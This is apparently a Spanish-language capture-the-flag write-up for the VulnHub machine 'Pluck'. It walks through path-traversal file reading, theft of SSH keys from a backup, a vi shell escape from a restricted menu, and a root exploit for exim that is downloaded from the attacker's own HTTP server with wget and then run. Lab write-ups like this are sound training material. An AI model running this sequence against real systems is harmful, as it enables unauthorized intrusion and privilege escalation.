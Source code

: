 # Pluck

Hoy vamos a resolver la maquina Pluck, donde estaremos tocando conceptos de explotación a través de LFI, así como escalada de privilegios a través de un script basico en bash.

Plataforma/Source: [VulnHub](https://www.vulnhub.com/entry/pluck-1,178/)

Dificultad: Easy

Meta: Obtener un shell root, es decir (root@localhost:~#) y luego obtener la bandera en /root

Iniciamos haciendo ping a la IP para asegurarnos que la maquina esté activa, tuve problemas con herramientas como arp-scan o netdiscover, así que me cree un script para escanear mi red local:

También he decidido añadir una resolución DNS local con el siguiente comando:
***
- Iniciamos haciendo ping a la IP para asegurarnos que la maquina esté activa. Esta maquina ya te muestra la IP al momento de arrancar el sistema, pero igual prefiero utilizar mi  [script](https://github.com/JoseVazquez101/My-scr1pt5/blob/main/hostscan.sh) para escanear mi red local y asegurarme que todo vaya en orden.

- Añadimos una resolución DNS local con el siguiente comando:
  ~~~bash
  echo '192.168.17.135  sumo.vh' >> /etc/hosts
  ~~~
- Si todo funciona, llegaría la hora de realizar el escaneo con nmap, con los siguientes parámetros:
~~~ bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn -sV pluck.vh
~~~
- Vemos que hay cuatro servicios activos, entre los cuales parecen encontrarse ssh, http, mysql y mDNS:
![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/99846ec6-826e-47cf-8d53-bb9066cefb45)

- La pagina web tramita sus solicitudes a través del campo de la URL, indicando que pagina visita de esta forma:
  ![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/290e1d40-4137-457b-83dd-ac492c76933d)

  - Esto puede derivar a una LFI si nos permite apuntar a recursos fuera de la carpeta anterior, indicando con `../` que queremos movernos hacia atrás:
  ![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/bdbdd0d1-f04c-49f4-ac18-085911e06113)

  - Hasta abajo, observamos que hay una ruta absoluta a lo que parece ser un script para backups, por lo que podremos echar un vistazo a su contenido:
    ![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/56541255-1260-4c2d-bf80-355e130bc8be)
   
- Parece ejecutar una serie de comandos, pero eso no importa mucho. Vemos que nos dice que podemos obtener el recurso via `tFTP`, el cual es un protocolo upd parecido a FTP. Nos conectamos y obtenemos el recurso.
  ![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/64820d2b-c213-4028-af1c-ac36328d1927)

- Podemos analizarlo si lo descomprimimos con:
~~~bash
7z x backup.tar
~~~

- Son varias carpetas, pero en una podemos ver pares de llaves, posiblemente pares de llaves publicas y privadas de ssh.
![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/48b21c4b-aa42-4a57-b480-897cad7fa0c2)

- Si listamos los contenidos, parecen cambiar en que algunas utilizan DSS y otras RSA para cifrarlas, en este punto probé todas las claves publicas hasta que alguna resultara valida, pues todas son del usuario Paul

~~~ bash
ssh paul@pluck.vh -i <pub_key>
~~~

- En este caso, si disponemos de la clave privada correcta alojada en el servidor victima, no nos debería pedir proporcionar una contraseña:
- Finalmente con una de las llaves podemos acceder, pero este usuario no poseé una bash, sino algo llamado pdmenu:
![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/19a4dcc7-277f-4668-8a3e-d13529a1f0cb)

- Tenemos un modulo para editar archivos, y este utiliza vi. Según [GTFOBins](https://gtfobins.github.io/gtfobins/vi/) existe una manera para hacer que este binario nos lance una bash.
- Nos metemos a cualquier archivo para editar, ya sea /etc/passwd y presionamos SHIFT+: para insertar las siguientes variables
~~~bash
:set shell=/bin/sh
:shell
~~~

***

<h3>PrivEsc</h3>
- Ya con completa libertad de movilidad, empecemos con listar los permisos SUID.
~~~ bash
find / -perm -4000 2>/dev/null
~~~
![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/9b43745d-98cc-46a7-992a-1f9e29641298)

- Vemos un binario `exim`, el cual es empleado para servicios de correo en equipos Unix
	- Exim: https://www.exim.org/
- Nos deja ver la versión, así que podríamos intentar ver si existe algún exploit conocido en searchsploit, así que lo movemos y pasamos a la maquina victima:

- Maquina local:
  ~~~bash
  searchsploit -m linux/local/39535.sh
  python3 -m http.server 9999
  wget 192.168.17.128:9999/39535.sh
  mv 39535.sh exploit.sh
  chmod +x exploit.sh
  ./exploit.sh
  ~~~
- Y con esto ya seriamos root :D

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/aabef773-920f-4f7b-ad63-5785a4f81be1)
![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/ae56085a-d6a3-4b3e-b1f9-28142195dff0)

